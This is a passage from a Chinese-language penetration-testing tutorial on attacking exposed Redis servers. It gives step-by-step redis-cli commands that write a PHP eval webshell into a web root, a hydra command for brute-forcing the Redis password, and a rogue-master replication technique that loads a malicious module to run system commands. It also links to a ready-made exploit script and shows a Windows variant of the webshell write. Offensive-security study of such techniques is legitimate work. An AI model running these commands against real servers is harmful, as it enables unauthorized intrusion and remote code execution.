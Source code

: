 #### Web目录写`WebShell`

```bash
./redis-cli -h 192.168.1.111
config set dir /var/www/html
set shell "\n\n\n<?php @eval($_POST['wintry']);?>\n\n\n"
config set dbfilename shell.php
save
```

```bash
hydra -P passwd.txt redis://192.168.1.111		#可以利用hydra爆破redis密码
```

#### slave主从复制实现ECE

##### `redis`主从复制（master-slave replication）

如果当把数据存储在单个`Redis`的实例中，当读写体量比较大的时候，服务端就很难承受。

为了应对这种情况，`Redis`就提供了主从模式，主从模式就是指使用一个`redis`实例作为主机，其他实例都作为备份机

其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式

##### `redis`模块

 和`mysql`类似，`redis`也支持扩展命令，我们需要编写so文件，来扩展命令。

> 1、我们伪装成redis数据库，然后受害者将我们的数据库设置为主节点。
>
> 2、我们设置备份文件名为so文件
>
> 3、设置传输方式为全量传输
>
> 4、加载so文件，实现任意命令执行

```bash
./redis-cli -h 192.168.1.111
MODULE LOAD /root/redis-rogue-server/exp.so
system.exec "whoami"
```

现成的工具，exp利用脚本：[redis-rce](https://github.com/vulhub/redis-rogue-getshell)

[Redis安装和配置主从复制](https://blog.csdn.net/ywd1992/article/details/83542955)

### Windows下的利用

**1、知道网站绝对路径，写WebShell**

```bash
192.168.1.9:6379> config set dir D:/phpstudy_pro/WWW
OK
192.168.1.9:6379> config set dbfilename shell.php
OK
192.168.1.9:6379> set x "<?php phpinfo();?>"
OK
192.168.1.9:6379> save
OK
```
